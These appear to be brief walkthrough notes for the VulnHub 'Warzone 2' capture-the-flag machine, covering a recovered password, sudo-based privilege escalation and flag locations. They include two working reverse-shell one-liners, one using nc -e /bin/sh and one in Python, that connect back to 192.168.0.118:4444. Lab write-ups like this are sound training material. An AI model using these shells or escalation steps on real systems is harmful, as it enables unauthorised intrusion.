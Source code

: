 # Warzone 2

- URL: ```https://www.vulnhub.com/entry/warzone-2,598/```
- semaphore: semaphore - signalperson
- connect 1337
- nc -e /bin/sh 192.168.0.118 4444
- flagman password: ```i_hate_signals!```
- run flask server as admiral (sudo -l)
- start remote port forwarding and connect to console
- ```import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.0.118",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")```
- Desktop/ - silver
- sudo -l - morze and go as root
- Desktop/ - golden

